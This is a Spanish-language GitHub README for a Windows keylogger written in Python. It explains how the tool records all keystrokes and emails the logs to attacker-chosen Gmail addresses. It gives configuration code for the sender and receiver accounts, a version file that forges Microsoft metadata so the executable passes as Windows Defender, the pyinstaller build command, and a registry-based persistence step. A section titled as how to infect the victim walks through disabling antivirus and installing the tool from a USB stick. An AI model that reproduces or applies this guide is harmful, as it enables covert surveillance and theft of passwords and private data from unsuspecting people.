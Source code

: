 # Keylogger para Windows - Python
__Actual:__  `v2.1`

__Documentación actualizada:__ `02-05-2020`


__Nota importante:__ Esta herramienta tiene como proposito general y de uso exclusivo para aprendizaje, se creó como parte de un curso Online de hacking de "Seguridad de sistemas informáticos", no me hago responsable de un posible mal uso de ésta herramienta.

Las razones del uso de un Keylogger son para fines de seguridad de una empresa, ya sea que estén viendo qué está haciendo el personal, cómo interactúan sus personas en las computadoras o que los atacantes intenten obtener información confidencial, como información de inicio de sesión u otros datos confidenciales. Este programa simplemente toma cada pulsación de tecla ingresada en el teclado y luego envía el archivo de registro por correo electrónico cada 2 horas.

## Carpeta Principal
![Archivos](https://i.imgur.com/fvVMi8N.png)
- `icon.ico`    = Icono Windows Defender
- `KeyloggerWindows.py` = Código fuente del Keylogger
- `LICENCE` = Licencia 
- `README.md`= Documentación
- `StartUp.reg` = Modifica el Registro de Windows
- `version.txt` = Información detalla de conversión `.py` a `.exe`
- `WindowsDefender.exe` = Keylogger Compilado 

## Caracteristicas
- __Envío por Gmail:__ Envía el registro de teclas por Gmail.
- __Recibe datos por varios correos:__ Hay una posibilidad de agregar 1 o más correos, y así el registro de notas se envíe a varios correos a la vez,
- __Verifica conexión a internet:__ El keylogger verifica si la computadora está conectada a internet, y si ese es el caso envía los datos, en caso contrario, no lo envía,
- __Tiempo de envío personalizado:__ Usted puede elegir un intervalo de tiempo personalizado, en la cual desea que se envíe los archivos, `No se recomienta que sean muy seguidos, ya que el servidor de mensajería de google, bloqueará la cuenta por 1 día,  por eso el tiempo de intervalo de envío escogida es de 2 Horas, éstas horas se cuentan despues de iniciar el script`
- __Obtención de datos a prueba de errores:__ En otros keylogger al momento de enviar el `log.txt`, éste proceso demora entre 3 a 5 segundos, y en ese transcurso de tiempo el keylogger no obtiene el registro de teclas, en éste keylogger, ese error está solucionado, obteniendo siempre los datos
- __Segundo plano:__ Este keylogger, al ejecutarse en la linea de comando, sí mostrará una consola, solo por debuggeo, pero al ser convertida a `*.exe` se utilizara un comando para que ésta se ejecute en segundo plano.
- __Disfraz:__ Al momento de ser convertido de `*.py a *.exe`. El Keylogger será disfrazado como `WindowsDefender.exe` con el ícono y la información del programa.
- __Oculto:__ El Keylogger al iniciar se copia (Solo si ya está en un archivo *exe) a la carpeta `"C:\Users\Public\Security\Windows Defender"` , y en esa carpeta encuentras el archivo `log.txt`.
- __Iniciar automaticamente con el sistema:__ Se encuentra un archivo llamado `StartUp.reg`, la cual al ejecutarlo, ésta escribe el registro y permite que el keylogger se ejecute al iniciar sesión.
- __Segundo Gmail en caso de Error:__ En casó el correo principal sea bloqueada o tenga x problemas, se usará un segundo correo.


## Caracteristicas en futuras actualizaciones: 
- __Conexión a una base de datos MySQL:__ Los datos recopilados serán enviados por una conexión a una base de datos en vez de por mensajes.  
- __Soporte de envió a otros buzones de correo:__ Se insertará un soporte para poder usar Outlook, yahoo u otros servicios de correo 
- __Conexión FTP:__ Envía el archivo `log.txt` vía FTP.
- __Envía datos mediante FTP:__ enviará documentos, fotos y videos mediante una conexión FTP, en segundo plano.
- __Portapapeles:__ Obtiene el texto del portapapeles.

## Uso de Recursos de la PC
El programa se repite 2 veces ya que ésta utiza 2 hilos de ejecución
![Uso del CPU y RAM](https://i.imgur.com/xMRxzX3.png)


# Proceso de preparación:
Requerimiento de paquetes de `Python3`:
- `import pynput`
- `import getuser`
- `import datetime`
- `import os`
- `import time`
- `import yagmail`
- `import socket`
- `import threading`

## Pasos para elegir su correo
1. Es de suma urgencia habilitar el acceso a apps menos seguras de google, la cual lo puedes hacer desde éste [link](https://myaccount.google.com/lesssecureapps).  `En caso no lo habilites, el keylogger no podrá iniciar sesión en su Gmail`
2. Use  `git clone https://github.com/SebastianEPH/Keylogger-py.git` para descargar el repositorio en su computadora.

3. Abra el archivo `KeyloggerWindows.py` en su editor de texto.
4. Busque la función `SendLog()` y ahí encontrará las siguientes lineas de código, las cuales debe modificar, el correo primario remitente, el correo segundario remitente y el o los correos receptores.

````py
# Correo de envío [Principal]      <=> Se enviará 
    sender_email_P       = "Send123@gmail.com"   # <<== Cambia éste correo
    sender_password_P    = "contraseña"          # <<== Contraseña del correo 

    # Correo de envío [Segundaria]     <=> Solo si hay algún problema de envío con el correo Principal
    sender_email_S       = "Sendabc@gmail.com"   # <<== Cambia éste correo
    sender_password_S    = "contraseña"          # <<== Contraseña del correo 

    # Correo o correos que recibirán el registro de datos `log.txt`
    receiver_email   = ["Recibe1@gmail.com", "Recibe2@hotmail.com", "Recibe3@yahoo.com"] # MultiCorreo
  # receiver_email   = ["correo@gmail.com"]  # SingleCorreo
````

# Proceso de conversión: `*.py a *.exe`
Se utilizará `pyinstaller`
1. En la carpeta principal encontrará dos archivos, uno llamado `icon.ico` y el otro `version.txt`, éstos 2 archivos son importantes para la conversión del `*.py a *.exe`.
    - `icon.ico` = El icono que tendrá el keylogger al ser convertido
    - `version.txt` = Información detallada del keyloger.
    
    Ambos archivos son importantes para ocultar el `keylogger` o tratar de hacerlo pasar cómo un programa que no es, así como la siguiente imagen:

    ![Imagen1](https://i.imgur.com/4ytoK3h.png)
    ![Imagen2](https://i.imgur.com/1Dj2Tat.png)

    Toda esa información puede ser modificada en el archivo de la plantilla `version.txt`
2. __Disfraz _[Información]_:__ El el siguiente archivo `version.txt`, puedes modificar la información del `*.exe` la cual se supone que de ser creible.
````t
VSVersionInfo(
  ffi=FixedFileInfo(
    filevers=(6, 1, 7601, 17514),
    prodvers=(6, 1, 7601, 17514),
    mask=0x3f,
    flags=0x0,
    OS=0x40004,
    fileType=0x1,
    subtype=0x0,
    date=(0, 0)
    ),
  kids=[
    StringFileInfo(
      [
      StringTable(
        u'040904B0',
        [StringStruct(u'CompanyName', u'Microsoft Corporation'),
        StringStruct(u'FileDescription', u'Windows Security Health Host Key'),
        StringStruct(u'FileVersion', u'6.1.7601.17514 (win7sp1_rtm.101119-1850)'),
        StringStruct(u'InternalName', u'Windows Defender'),
        StringStruct(u'LegalCopyright', u'\xa9 Microsoft Corporation. All rights reserved.'),
        StringStruct(u'OriginalFilename', u'SecurityHealthHostKey.exe'),
        StringStruct(u'ProductName', u'Microsoft\xae Windows\xae Operating System'),
        StringStruct(u'ProductVersion', u'6.1.7601.17514')])
      ]), 
    VarFileInfo([VarStruct(u'Translation', [1033, 1200])])
  ]
)
````
3. __Conversión final:__
Mediante Consola debe dirigirse a la carpeta principal.
Los requisitos es tener instalada la librería `pyinstaller`, porfavor mire un tutorial antes de hacer éste proceso, la linea de comando recomendada es la siguiente:

    ````r
    pyinstaller --clean   --distpath "Keylogger Terminado" -F --windowed --icon icon.ico --version-file version.txt KeyloggerWindows.py
    ````

# ¿Cómo infecto a la victima?
![Final files](https://i.imgur.com/7GJz3De.png)
- Usten tendrá al finalizar 2 archivos:
- El archivo llamado `WindowsDefender.exe` es el keylogger.
- El archivo llamado , modifica el registro de windows, y hace que el keylogger se ejecute siempre al iniciar el usuario.

## Procedimiento de infección:
- Usten guardará esos archivos en un USB
- Es necesario desactivar el antivirus o agregar una exclusión en al siguiente ruta: `"C:\Users\Public\Security\Windows Defender"`
- Lo siguiente es ejecutar el archivo `WindowsDefender.exe` en el USB, el keylogger se replicará en la siguiente ruta `"C:\Users\Public\Security\Windows Defender"`, Se recomienda no sacar el USB al instante ya que el keylogger se estará replicando enla ruta.
- Lo siguiente es darle 2 click al archiv `StartUp.reg`, y ésto hará que el registro de windows sea modificado y el keylogger se ejecute 
- __Nota:__ No hay un orden fijo, usted puede ejecutar primero el archivo `WindowsDefender.exe` cómo el archivo `StartUp.reg` y  ésto no causará ningún problema.


<!-- Creador  -->
---
## By SebastianEPH
- [Github](https://github.com/SebastianEPH)
- [Facebook](https://www.facebook.com/SebastianEPH)
- [Linkedin](https://www.linkedin.com/in/sebastianeph/)
- [Telegram](https://t.me/sebastianeph)